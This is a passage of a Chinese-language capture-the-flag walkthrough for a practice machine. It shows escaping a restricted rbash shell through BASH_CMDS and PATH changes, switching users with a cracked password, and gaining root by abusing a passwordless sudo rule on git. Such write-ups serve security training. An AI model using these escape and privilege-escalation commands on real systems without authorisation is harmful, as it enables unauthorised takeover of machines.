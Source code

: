 **09 更改环境变量绕过 rbash**

在 tom 账号下

执行

> echo $0

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaqVDBQGx3gfdOrdRjPQv0kZUkG2nyPjuCqQiajOJKnJLlCAYhPoDSEFEHHP3UhGhZQa527Iibf9Wzw/640?wx_fmt=png) 

可以看到当前用户的执行权限

好，现在我们的目的就是解锁 tom 的 rbash，让其拥有 bash 权限

依次执行一下命令

> BASH_CMDS[a]=/bin/sh;a
> 
> /bin/bash
> 
> export PATH=$PATH:/bin/
> 
> export PATH=$PATH:/usr/bin

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaqVDBQGx3gfdOrdRjPQv0kibicQ8jHt7y1CMJbDm3dP7RUKw3zOnm2l0oFHt3icCQ1QHG92ricK8qerQ/640?wx_fmt=png) 

可以看到 tom 拥有了 bssh 权限

然后执行

su jerry 输入之前爆出来的密码，直接进入 jerry 账户

**10 权限提升**

进入 jerry 账号，可以看到给我们的第 4 个提示

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaqVDBQGx3gfdOrdRjPQv0kucLicLu6879H6w7yh5XVOajpafo0oRokiazbM3B2hvxMMZHVUPkL7AEg/640?wx_fmt=png) 

提示我们进行 git 提权

执行

> sudo -l 

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaqVDBQGx3gfdOrdRjPQv0kzbRbJervkKWveppqfXtQb9DbFJgklIxYYOYL4OApBCibIULjOPKrlnA/640?wx_fmt=png)

可以看到 (root) NOPASSWD: /usr/bin/git

git 是 root 免密执行，既然如此使用 git 提权

从这五个命令中依次进行尝试执行，总有一条可以成功

> sudo git -p --help
> 
> sudo git -p config
> 
> sudo git --help  config
> 
> sudo git -p --help config
> 
> sudo git help config
